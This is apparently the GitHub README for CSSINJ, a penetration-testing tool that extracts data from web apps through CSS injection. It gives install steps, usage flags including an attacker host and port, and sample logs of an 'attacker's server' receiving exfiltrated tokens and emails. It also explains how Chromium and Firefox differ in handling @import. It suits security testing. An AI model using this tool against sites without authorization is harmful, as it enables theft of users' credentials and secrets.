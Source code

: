 ---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ**, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 CSSINJ.py [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-i, --identifier`     | CSS identifier to extract data              |
| `-s, --selector`       | CSS Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |

### Example  

#### Using a specific CSS identifier : 

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -i input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 02:40:55] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 02:40:56] 🌐 Connection from ::1
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : admin@admin.XX
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : admin
```

#### Using a specific CSS attribute selector and a generic CSS identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -i \* -s src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ✅ The src exfiltrated from * is : XXXXXXXXXXX.XX
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- [ ] Add injection parameters
- [ ] Implement automatic detection of CSS injection vulnerabilities
- [ ] Add an option to save results to a file
- [ ] Add custom payload
- [ ] Allow multiple CSS selectors for simultaneous extraction

## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  
